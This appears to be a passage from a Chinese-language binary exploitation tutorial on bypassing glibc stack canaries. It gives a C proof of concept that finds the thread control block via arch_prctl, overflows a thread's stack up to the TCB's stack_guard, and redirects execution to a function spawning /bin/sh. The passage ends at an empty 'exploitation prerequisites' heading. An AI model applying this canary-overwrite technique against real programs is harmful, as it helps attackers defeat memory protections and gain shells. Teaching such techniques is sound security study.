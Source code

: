 举个例子

```plain
void pwn_payload() {
    char *argv[2] = {"/bin/sh", 0};
    execve(argv[0], argv, 0);
}

int fixup = 0;
void * first(void *x)
{
    unsigned long *addr;
    arch_prctl(ARCH_GET_FS, &addr);
    printf("thread FS %p\n", addr);
    printf("cookie thread: 0x%lx\n", addr[5]);
    unsigned long * frame = __builtin_frame_address(0);
    printf("stack_cookie addr %p \n", &frame[-1]);
    printf("diff : %lx\n", (char*)addr - (char*)&frame[-1]); 
    unsigned long len =(unsigned long)( (char*)addr - (char*)&frame[-1]) + 
fixup;
    // example of exploitation
    // prepare exploit
    void *exploit = malloc(len);
    memset(exploit, 0x41, len);
    void *ptr = &pwn_payload;
    memcpy((char*)exploit + 16, &ptr, 8);
    // exact stack-buffer overflow example
    memcpy(&frame[-1], exploit, len);
    return 0;
}

int main(int argc, char **argv, char **envp)
{
    pthread_t one;
    unsigned long *addr;
    void *val;
    arch_prctl(ARCH_GET_FS, &addr);
    if (argc > 1)
        fixup = 0x30;
    printf("main FS %p\n", addr);
    printf("cookie main: 0x%lx\n", addr[5]);
    pthread_create(&one, NULL, &first, 0);
    pthread_join(one,&val);
    return 0;
}
```

```plain
在当前栈帧和TCB结构之间的距离等于0x7b8,小于一页,只要溢出的字节够多，就可以把TCB中的tcbhead_t.stack_guard覆盖掉。
```

### 利用前提
